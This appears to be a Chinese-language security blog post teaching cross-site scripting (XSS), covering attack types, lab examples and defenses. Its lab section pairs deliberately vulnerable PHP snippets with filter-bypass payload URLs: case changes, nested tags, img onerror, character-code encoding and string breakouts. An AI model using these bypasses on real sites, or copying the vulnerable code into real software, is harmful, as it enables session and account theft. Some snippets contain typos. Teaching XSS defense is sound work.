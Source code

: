 ```yaml
---
layout: post
title:  "跨站脚本攻击"
categories: XSS
tags:  XSS
---
```


## 简介

**跨站脚本攻击**`(Cross Site Scripting)`，为了不和**层叠样式表**`(Cascading Style Sheets, CSS)`的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

### 主要攻击危害

1. 盗取各类用户帐号，如机器登录帐号、用户网银帐号、各类管理员帐号

2. 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力

3. 盗窃企业重要的具有商业价值的资料

4. 非法转账

5. 强制发送电子邮件

6. 网站挂马

7. 控制受害者机器向其它网站发起攻击

## XSS的攻击类型

### 反射型

又称为非持久性跨站点脚本攻击，它是最常见的类型的XSS。漏洞产生的原因是攻击者注入的数据反映在响应中。一个典型的非持久性XSS包含一个带XSS攻击向量的链接(即每次攻击需要用户的点击)。  

### 存储型

又称为持久型跨站点脚本，它一般发生在XSS攻击向量(一般指XSS攻击代码)存储在网站数据库，当一个页面被用户打开的时候执行。每当用户打开浏览器,脚本执行。持久的XSS相比非持久性XSS攻击危害性更大,因为每当用户打开页面，查看内容时脚本将自动执行。谷歌的orkut曾经就遭受到XSS。

### DOM型

其实DOM型也属于反射型的一种，不过比较特殊，所以一般也当做一种单独类型。
前提是易受攻击的网站有一个HTML页面采用不安全的方式从document.location 或document.URL 或 document.referrer获取数据（或者任何其他攻击者可以修改的对象）

## XSS的攻击实验

### 无任何过滤

```php
<? php
      echo $_GET["name"];
?>
```
以上代码没有做任何过滤,可直接输入`http://IP:port/index.php?name=<script>alert</script>`;,访问后可弹出弹框

### 过滤小写的<script>和</script>

```php
$name = $_GET["name"];
$name =  preg_replace("/<script>/","",$name);
$name =  preg_replace("/<\/script>/","",$name);
echo $name;
```
过滤了小写的`<script>`和`<\script>`,可以使用大小写绕过
`http://IP:port/index.php?name=<scripT>alert</scripT>`;

### 过滤了不区分大小写的<script>和</script>

```php
$name = $_GET["name"];
$name =  preg_replace("/<script>/","",$name);
$name =  preg_replace("/<\/script>/","",$name);
echo $name;
```

过滤了不区分大小写的`<script>`和`<\script>`,可以使用嵌套的script标签绕过
`http://IP:port/index.php?name=<scr<script>ipT>alert</scr</script>ipT>`;

### 包含script字符即报错

```php
if (preg_match('/script/i',$_GET["name"])) {
      die("error")
}
```

包含script字符即报错,可以使用img标签来绕过.`http://IP:port/index.php?name=<img src="" onerror="alert('xxs')">`

### 直接过滤alert

``` php
if(preg_math('/alert/i',$_GET["name"])) {
      die("error");
}
```
包含alert即报错,可以使用编码来绕过`http://IP:port/index.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,39,120,115,115,39,41))</script>`

### 直接在js环境中输出php变量

``` php
<script> var $a ="<?php echo $_GET["name"]; ?>"</script>
```
直接在js环境中输出php变量可以构造js脚本绕过`http://IP:port/index.php?name=</script><script>alert('XSS')</script>`

### htmlentities转换

```php
<script>var $a = '<?php echo htmlentities($_GET["name"]); ?>';
</script>
```
`htmlentities()`把字符转换为 HTML 实体,但没有转换特殊字符,用单引号来绕过`http://IP:port/index.php?name=';alert('xss');'`

### 使用锚点ID

```php
<script>doucument.write(location.hash.substring(1))</script>
```

在页面输出锚点,location.hash获取URL的锚点包含#号,substring(1)去除#.则构建一个带xss的锚点即可
``http://IP:port/index.php#<script>alert('XSS')</script>,刷新页面即可弹窗.

## XSS防御

### 基于代码修改的防御

和SQL注入防御一样,XSS攻击也是利用了Web页面的编写疏忽,所以可以从Web应用开发的角度来避免:

- 步骤一: 对所有用户提交内容进行可靠的输入验证,包括对`URL`,`查询关键字`,`HTTP头`,`POST数据`等,金接受指定长度范围内,采用适当格式,采用所预期的内容提交,对其他一律过滤.
- 步骤二: 实现Session标记,CAPTHA系统或者HTTP应用头检查,以防功能被第三方网站所执行.
- 步骤三: 确认接受的内容被妥善规范化,仅包含最小的,安全的Tag(没有JavaScript等),去掉任何远程内容的引用)(尤其是样式表和javacript),使用HTTP only的cookie.

### 基于特征的防御

传统XSS防御多采用特征匹配方式,在所有提交的信息中都进行匹配检查.对于这种类型的XSS攻击,采用模式匹配方法一般会需要对`javascript`这个关键字进行检索,一旦发现提交信息中包含`javascript`,就可以认为存在XSS攻击

## 参考资料

### [【实验吧】XSS攻击与防御综合挑战专题](http://www.shiyanbar.com/experiment-course/detail/369)

### [【那一夜随风】XSS跨站脚本攻击](https://www.cnblogs.com/phpstudy2015-6/p/6767032.html)

### [关于XSS（跨站脚本攻击）和CSRF（跨站请求伪造）](https://cnodejs.org/topic/50463565329c5139760c34a1)
